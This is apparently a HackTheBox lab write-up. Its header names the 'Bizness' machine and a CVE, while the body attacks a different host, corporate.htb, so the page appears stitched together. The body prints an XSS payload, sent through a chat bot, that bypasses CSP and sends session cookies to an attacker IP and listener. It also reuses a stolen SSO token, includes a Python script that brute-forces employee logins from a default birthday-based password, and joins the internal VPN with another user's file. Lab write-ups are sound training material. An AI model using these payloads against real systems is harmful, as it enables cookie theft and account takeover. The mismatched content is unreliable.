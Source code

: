 ```yaml
---
layout: post
title:  Bizness
description: Bizness is a Easy-difficulty Linux machine that focuses on a CVE...
date:   2024-08-07 08:01:35 -0500
image:  '/images/bizness01.jpg'
tags:   [HackTheBox, CTF, Retired, Linux, Easy]
featured: true
---
```

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>PenTest Report</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            line-height: 1.6;
        }
        .heading-wrapper {
            margin-bottom: 1rem;
        }
        .heading {
            font-size: 1.2rem;
            margin: 0;
            padding: 0.5rem 0;
            border-bottom: 1px solid #ddd;
        }
        pre {
            background: #f4f4f4;
            border: 1px solid #ddd;
            padding: 1rem;
            overflow-x: auto;
        }
        .copy-code-button {
            display: inline-block;
            margin-top: 0.5rem;
            padding: 0.3rem 0.7rem;
            background-color: #007bff;
            color: white;
            border: none;
            border-radius: 0.25rem;
            cursor: pointer;
        }
        ul {
            list-style: none;
            padding: 0;
        }
        li {
            margin-bottom: 0.5rem;
        }
        .contains-task-list {
            padding-left: 1rem;
        }
        .task-list-item-checkbox {
            margin-right: 0.5rem;
        }
    </style>
</head>
<body>

<div class="heading-wrapper">
    <h3 class="heading" id="Fuzzing">Fuzzing:</h3>
    <ul class="contains-task-list">
        <li class="task-list-item is-checked">
            <input type="checkbox" class="task-list-item-checkbox" checked> ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u <a href="http://corporate.htb" target="_blank">http://corporate.htb</a> -H 'Host: FUZZ.corporate.htb' -fs 175
        </li>
        <li class="task-list-item is-checked">
            <strong>Subdomains:</strong>
            <ul>
                <li>support.corporate.htb</li>
                <li>git.corporate.htb</li>
                <li>sso.corporate.htb</li>
                <li>people.corporate.htb</li>
            </ul>
        </li>
    </ul>
</div>

<div class="heading-wrapper">
    <h3 class="heading" id="Web_Exploration">Web Exploration:</h3>
    <ul class="contains-task-list">
        <li class="task-list-item is-checked">
            There is an AI chat bot we can seemingly take advantage of.
            <ul class="contains-task-list">
                <li>
                    We are able to send <code>&lt;html&gt; scripts</code> through the chat bot and it seems to be rendering the scripts.
                    <ul>
                        <li><code>XSS</code> Vulnerable.</li>
                    </ul>
                </li>
                <li>
                    We attempt <code>javascript</code> but it is blocking processing JavaScript with <code>CSP</code> <strong>Content-Security-Policy</strong>.
                </li>
            </ul>
        </li>
    </ul>
    <pre><code>|   | |---| |Content-Security-Policy<br>base-uri 'self'; <br>default-src 'self' http://corporate.htb http://*.corporate.htb; <br>style-src 'self' 'unsafe-inline' https://fonts.googleapis.com https://maps.googleapis.com https://maps.gstatic.com; <br>font-src 'self' https://fonts.googleapis.com/ https://fonts.gstatic.com data:; <br>img-src 'self' data: maps.gstatic.com; <br>frame-src https://www.google.com/maps/; <br>object-src 'none'; <br>script-src 'self'|`
    </code></pre>
</div>

<div class="heading-wrapper">
    <h3 class="heading" id="Exploring_available_JavaScript">Exploring available JavaScript:</h3>
    <ul class="contains-task-list">
        <li class="task-list-item is-checked">
            Here is a curl command that attempts to access that javascript and shows that its possible to access it.
            <pre><code>curl -sS '<a href="http://corporate.htb/assets/js/analytics.min.js?v=froggie" target="_blank">http://corporate.htb/assets/js/analytics.min.js?v=froggie</a>'</code></pre>
        </li>
        <li class="task-list-item is-checked">
            We can see that it's possible to exploit this javascript. We can craft a URL to send the chatbot now to grab some session cookies.
            <pre><code>&lt;meta http-equiv="refresh" content="0; url=http://corporate.htb/%3Cscript+src='/vendor/analytics.min.js'%3E%3C/script%3E%3Cscript+src='/assets/js/analytics.min.js?v=document.location=`http://10.10.14.34:34000/${document.cookie}`'%27%3C/script%3E"/&gt;</code></pre>
            Sending this script to the chat bot while having a listening server on our attack box will grab a cookie.
        </li>
    </ul>
</div>

<div class="heading-wrapper">
    <h3 class="heading" id="Cookie_Theft">Cookie Theft:</h3>
    <ul class="contains-task-list">
        <li class="task-list-item is-checked">
            Setup your server for cookie theft. <code>python -m http.server 34000</code>
            <ul>
                <li>We grab a cookie for <code>CorporateSSO</code></li>
                <li>Set the cookie in your browser. Set the path to <code>/</code> and the domain to <code>.corporate.htb</code> /Value=<code>eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6NTA3MSwibmFtZSI6Ikp1bGlvIiwic3VybmFtZSI6IkRhbmllbCIsImVtYWlsIjoiSnVsaW8uRGFuaWVsQGNvcnBvcmF0ZS5odGIiLCJyb2xlcyI6WyJzYWxlcyJdLCJyZXF1aXJlQ3VycmVudFBhc3N3b3JkIjp0cnVlLCJpYXQiOjE3MjE3NTk4OTksImV4cCI6MTcyMTg0NjI5OX0.peLklF24DypFH8xEUc2VajwwItqc6R7kHzAAgASQ1fE</code></li>
            </ul>
        </li>
        <li class="task-list-item is-checked">
            After setting the cookie then clicking sign in on <code>people.corporate.htb</code> we have access to the panel under the user <code>Julio Daniel</code>.
            <ul>
                <li>Access to some panels but nothing really stands out too much at first.</li>
                <li>We have a <code>sharing folder</code> where people can share files.</li>
                <li>Chat where employees can chat.
                    <ul>
                        <li>Clicking on profile images sends us to the user's profiles.
                            <ul>
                                <li>Vulnerable to <code>IDOR</code>. We can navigate between users in the browser by changing the user number.</li>
                            </ul>
                        </li>
                    </ul>
                </li>
                <li>There is an <code>openvpn</code> file that I can download. Probably gives access to a VPN to get into the internal network.</li>
            </ul>
        </li>
    </ul>
</div>

<div class="heading-wrapper">
    <h3 class="heading" id="IDOR">IDOR:</h3>
    <ul class="contains-task-list">
        <li class="task-list-item is-checked">
            We are able to perform some IDOR with curl and get the files of other users onto our current user's sharing folder. I can't get this to work so I'm moving on.
        </li>
    </ul>
</div>

<div class="heading-wrapper">
    <h3 class="heading" id="Brute_Forcing_Users">Brute Forcing Users:</h3>
    <ul class="contains-task-list">
        <li class="task-list-item is-checked">
            There's an email we can look at that gives us an "On-boarding" playbook. It has a generic password format for new employees.
            <ul>
                <li>We can use this basic template and brute force all users we know to see if they forgot to change their passwords.</li>
            </ul>
        </li>
    </ul>
    <pre><code>#!/usr/bin/env python3

import re
import requests

cookie = {"CorporateSSO": "YOUR_COOKIE_HERE"}

for i in range(5000, 5100):
    resp = requests.get(f"http://people.corporate.htb/employee/{i}", cookies=cookie)
    if "Sorry, we couldn't find that employee!" in resp.text:
        continue

    user_name = re.findall(r"(\w+\.\w+)@corporate.htb", resp.text)[0]
    birthday_str = re.findall(r'&lt;th scope="row"&gt;Birthday&lt;/th&gt;\s+&lt;td&gt;(\d{1,2}/\d{1,2}/\d{4})&lt;/td&gt;', resp.text)[0]
    m, d, y = birthday_str.split('/')
    password = f"CorporateStarter{d.zfill(2)}{m.zfill(2)}{y}"
    resp_login = requests.post('http://sso.corporate.htb/login', data={'username': user_name, 'password': password}, allow_redirects=False)
    if "/login?error=Invalid%20username%20or%20password" not in resp_login.text:
        print(f"{user_name}: {password}")</code></pre>
</div>

<div class="heading-wrapper">
    <h3 class="heading" id="OpenVPN">OpenVPN:</h3>
    <ul class="contains-task-list">
        <li class="task-list-item is-checked">
            Downloaded an <code>openvpn</code> file from <code>elwin.jones</code> and connected:
            <pre><code>sudo openvpn elwin-jones.ovpn</code></pre>
            <ul>
                <li>We can see the <code>tun1</code> interface being created on our attacking box.</li>
            </ul>
        </li>
    </ul>
</div>

</body>
</html>
